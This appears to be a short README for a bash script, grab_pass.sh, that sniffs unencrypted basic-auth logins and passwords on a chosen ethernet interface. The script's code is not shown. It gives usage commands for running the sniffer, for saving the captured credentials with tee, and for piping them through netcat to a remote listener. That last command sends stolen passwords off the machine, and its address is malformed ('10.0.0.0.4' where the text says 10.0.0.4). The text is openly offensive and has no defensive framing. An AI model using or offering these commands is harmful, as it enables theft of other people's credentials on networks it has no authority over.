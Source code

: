# grab_pass.sh

This is a simple script that sniffs for unencrypted basic auth logins/passwords.  You can either just run it as is.  The only option is the ethernet device.  Example with eth0:

`bash grab_pass.sh eth0`

Now just sit back and wait.  

If you are like me, you want to keep or send those passwords somewhere.  You can always tee it to a file:

`bash grab_pass.sh eth0 | tee logins.txt`

or you could always setup netcat to listen on a server somewhere, then pipe the results to netcat.  For example, if I had a listener on 10.0.0.4 running on port 5555, I would just run this:

`bash grab_pass.sh eth0 | nc 10.0.0.0.4 5555`
